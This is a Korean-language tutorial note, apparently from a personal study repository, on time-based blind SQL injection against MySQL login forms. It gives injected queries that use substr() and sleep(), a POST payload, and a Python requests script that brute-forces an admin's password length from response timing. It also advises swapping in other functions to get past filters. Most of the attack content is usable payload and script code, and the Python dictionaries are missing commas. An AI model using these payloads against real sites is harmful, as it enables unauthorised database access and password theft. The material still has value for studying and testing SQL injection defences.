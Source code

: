 # Time based blind sqli

### Time based blind sqli 란

time based sql injection 과

blind sql injection 하고 서로 응용하면서 사용하는 기법이다.

간단하게 blind sql injection에 사용하는 쿼리에 time based 를 연결시켜 반환값을

확인하는 것이다.

<br>

__예 db 구조__
```sql
databases -> test

tables -> member

columns -> id , pw

data -> ('admin','password'),('guest','guest')
```

예)
```sql
SELECT * FROM member WHERE id='admin' and substr(pw,1,1)='p' and sleep(10);

SELECT * FROM member WHERE id='' and pw='' or id='admin' and substr(pw,1,1)='p' and sleep(10);
```

이런식으로 다양하게 blind sqli 와 time based sqli 를 합쳐서 반환값을 웹페이지상에서

확인을할 수 가있다.
* * *

python 에서는 
requests 같은 모듈로 HTTP POST 또는 GET 방식으로
전송할때 데이터를 조금만 더 추가하면된다.

<br>

__밑의 링크를 읽어보지않거나 공격 기법을 모르면 참고해도 좋다.__

+ [time based sql injection 이란?](https://github.com/kimminwyk/Study-notes/tree/master/MYSQL/MYSQL-SQL-injection/time-based-sql-injection)

+ [blind sql injection 이란?](https://github.com/kimminwyk/Study-notes/tree/master/MYSQL/MYSQL-SQL-injection/blind-sql-injection)

+ [자세한 blind sqli python script](https://github.com/kimminwyk/Study-notes/blob/master/MYSQL/MYSQL-SQL-injection/blind-sql-injection/blind-sql-injection-python-script.md)

<br>

```sql
SELECT * FROM member WHERE id='' and pw=''
```

위의 sql 쿼리대로 time based blind sql injection 을 시도한다면

```py
body = {
    'uid':"admin' and substr(pw,1,1)='p' and sleep(10)--'"
    'upw':'a'
}
```

```py
import requests

Url = "in Url"

for length in range(1,100):
    data = {
        'uid':f"admin' and length(pw)={length} and sleep(10)--'"
        'upw':'a'
    }
    try:
        r = requests.post(Url,data = data,timeout = 2)

    except:
        print('userid admin in password length :',length)
```
이와같이 blind sqli 에 사용하는 쿼리과 time based sqli 와 사용하는 쿼리를 조합시켜 완성 시키면 된다.
* * *
그리고 sleep() 같은 함수를 굳이 사용하지않아도

time based sql injection 에서 필터링시에 우회할수있는 쿼리나 함수를 추가하면 된다.

<br>

### 마무리

blind sqli 과 time based sqli 과 합치면서

서로 필터링이 되지않는 함수들을 사용하여 우회를 하고

만들어진 query 로 전송하여 스크립트를 만들면 된다.
